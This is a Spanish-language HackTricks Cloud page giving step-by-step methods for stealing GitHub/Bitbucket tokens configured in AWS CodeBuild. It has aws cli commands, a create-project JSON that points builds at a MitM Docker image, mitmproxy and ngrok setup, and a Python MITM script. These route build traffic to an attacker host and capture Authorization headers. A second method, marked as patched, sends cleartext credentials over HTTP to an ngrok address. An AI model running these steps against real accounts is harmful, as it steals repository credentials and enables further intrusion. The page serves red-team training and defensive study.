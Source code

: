 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recuperar Tokens Configurados de Github/Bitbucket

Primero, verifica si hay credenciales de origen configuradas que podrías filtrar:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si encuentras que la autenticación, por ejemplo, a Github está configurada en la cuenta, puedes **exfiltrar** ese **acceso** (**token de GH o token de OAuth**) haciendo que Codebuild **utilice una imagen de docker específica** para ejecutar la construcción del proyecto.

Para este propósito, podrías **crear un nuevo proyecto de Codebuild** o cambiar el **entorno** de uno existente para establecer la **imagen de Docker**.

La imagen de Docker que podrías usar es [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta es una imagen de Docker muy básica que establecerá las **variables de entorno `https_proxy`**, **`http_proxy`** y **`SSL_CERT_FILE`**. Esto te permitirá interceptar la mayor parte del tráfico del host indicado en **`https_proxy`** y **`http_proxy`** y confiar en el CERT SSL indicado en **`SSL_CERT_FILE`**.

1. **Crea y sube tu propia imagen de Docker MitM**
* Sigue las instrucciones del repositorio para establecer tu dirección IP de proxy y configurar tu certificado SSL y **construir la imagen de docker**.
* **NO CONFIGURES `http_proxy`** para no interceptar solicitudes al endpoint de metadatos.
* Podrías usar **`ngrok`** como `ngrok tcp 4444` para establecer el proxy en tu host.
* Una vez que tengas la imagen de Docker construida, **cárgala en un repositorio público** (Dockerhub, ECR...)
2. **Configura el entorno**
* Crea un **nuevo proyecto de Codebuild** o **modifica** el entorno de uno existente.
* Configura el proyecto para usar la **imagen de Docker generada previamente**.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Configura el proxy MitM en tu host**

* Como se indica en el **repositorio de Github**, podrías usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **versión de mitmproxy utilizada fue 9.0.1**, se informó que con la versión 10 esto podría no funcionar.
{% endhint %}

4. **Ejecutar la construcción y capturar las credenciales**

*   Puedes ver el token en el encabezado de **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Esto también se podría hacer desde la aws cli con algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~A través del protocolo HTTP~~

{% hint style="success" %}
**Esta vulnerabilidad fue corregida por AWS en algún momento de la semana del 20 de febrero de 2023 (creo que el viernes). Así que un atacante ya no puede abusar de ella :)**
{% endhint %}

Un atacante con **permisos elevados en un CodeBuild podría filtrar el token de Github/Bitbucket** configurado o si los permisos se configuraron a través de OAuth, el **token temporal de OAuth utilizado para acceder al código**.

* Un atacante podría agregar las variables de entorno **http\_proxy** y **https\_proxy** al proyecto de CodeBuild apuntando a su máquina (por ejemplo `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Luego, cambiar la URL del repositorio de github para usar HTTP en lugar de HTTPS, por ejemplo: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Luego, ejecutar el ejemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) en el puerto señalado por las variables de proxy (http\_proxy y https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, haz clic en **Construir el proyecto**, las **credenciales** serán **enviadas en texto claro** (base64) al puerto mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ahora un atacante podrá usar el token desde su máquina, listar todos los privilegios que tiene y (ab)usar más fácilmente que usando el servicio CodeBuild directamente.
{% endhint %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
